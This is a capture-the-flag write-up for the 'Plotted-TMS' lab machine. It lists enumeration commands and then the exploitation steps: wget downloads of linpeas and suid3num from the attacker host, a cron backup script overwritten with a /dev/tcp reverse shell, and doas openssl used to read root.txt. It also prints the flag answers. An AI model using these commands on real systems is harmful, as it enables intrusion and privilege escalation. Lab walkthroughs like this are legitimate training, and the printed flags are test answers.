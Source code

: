 # Plotted-TMS

![](../../.gitbook/assets/10.10.137.48.png)

## Task 1 Compromise

#### What is user.txt?

```bash
nmap -n -sV -sC 10.10.137.48
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 14-47-42.png>)

```bash
gobuster dir -u http://10.10.137.48 -w /usr/share/wordlists/common.txt \
             -t64
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-00-23.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-01-31.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-05-40.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-04-36.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-05-54.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-16-01.png>)

```bash
gobuster dir -u http://10.10.137.48:445 \
             -w /usr/share/dirb/wordlists/common.txt \
             -t64
gobuster dir -u http://10.10.137.48:445/management \
             -w /usr/share/dirb/wordlists/common.txt \
             -t64
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-13-38.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-05-37.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-13-12.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-16-49.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-05-23.png>) ![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-29-07.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-29-30.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-01-26.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-34-23.png>)

```bash
nc -nvlp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
find / -type f -name user.txt 2>/dev/null
cat /home/plot_admin/user.txt
ls -l /home/plot_admin/
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-42-05.png>)

```bash
wget http://10.6.9.176/linpeas.sh -P /tmp
bash /tmp/linpeas.sh
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-50-17.png>)

```bash
ls -ld /var/www/scripts/
cat /var/www/scripts/backup.sh
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-11-34.png>)

```bash
echo '#!/bin/bash' > /var/www/scripts/backup2.sh
echo 'sh -i >& /dev/tcp/10.6.9.176/4445 0>&1' >> /var/www/scripts/backup2.sh
chmod +x /var/www/scripts/backup2.sh 
mv -f /var/www/scripts/backup2.sh /var/www/scripts/backup.sh 
```

```bash
nc -nvlp 4445
python3 -c 'import pty; pty.spawn("/bin/bash")'
cat /home/plot_admin/user.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-21-17.png>)

{% hint style="success" %}
`77927510d5edacea1f9e86602f1fbadb`
{% endhint %}

#### What is root.txt?

```bash
wget http://10.6.9.176/suid3num.py
python3 suid3num.py
cat /etc/doas.conf
/usr/bin/doas openssl enc -in /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-25-38 (1).png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-26-14.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-28-23.png>)

{% hint style="success" %}
`53f85e2da3e874426fa059040a9bdcab`
{% endhint %}

## Xmind

{% file src="../../.gitbook/assets/10.10.137.48.xmind" %}
